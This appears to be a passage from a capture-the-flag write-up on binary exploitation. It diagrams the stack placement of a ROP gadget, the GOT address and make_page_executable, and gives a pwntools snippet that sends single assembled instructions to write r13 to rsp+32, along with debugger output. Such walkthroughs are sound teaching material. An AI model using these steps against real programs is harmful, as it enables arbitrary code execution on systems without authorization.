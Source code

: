 {{< highlight sh "cssclass=highlight compact text-center" >}}
------------------------------------------------------------------------
address of the ROP gadget
------------------------------------------------------------------------
value we want to send to make_page_executable
which is the address of the GOT   
------------------------------------------------------------------------
address of make_page_executable
------------------------------------------------------------------------
{{< /highlight >}}

Wee can write these values wherever we want to into the stack, just have in mind they need to survive to several calls 
of `sym.do_test()`. I decided to use the following addresses:

{{< highlight sh "cssclass=highlight compact" >}}
----------------------------------------------------------------------
 rsp + 24  │              address of the ROP gadget             │ 
----------------------------------------------------------------------
 rsp + 32  │    value we want to send to make_page_executable   │ r13
           │         which is the address of the GOT            │ 
----------------------------------------------------------------------
 rsp + 40  │           address of make_page_executable          │ 
----------------------------------------------------------------------
{{< /highlight >}}

Once again, remember that we need to calculate the addresses on-runtime. Not the three of them, but two because 
we already have the address of the GOT in `r13`. `r14` is not shown in the previous schema but it has the address where our shellcode starts and will be used in 
a latter phase.

We only have `r15` free, so we are going to save `r13` in `rsp + 32` at first place to be able to use that register too.

{{< highlight python "hl_lines=7 8 9" >}}
# 1) rsp + 32 -> GOT table address (r13)
p.send(asm('mov r15, rsp') + ret)        # "\x49\x89\xe7" + ret

inst = asm('inc r15') + ret              # "\x49\xff\xc7" + ret
for i in range(32):
    p.send(inst)
p.send(asm('mov [r15], r13') + ret)      # \x4d\x89\x2f + ret
# :> pxq 8 @ rsp+32
# 0x7ffde1355c48  0x000055664a259000                       ..%JfU..
{{< /highlight >}}
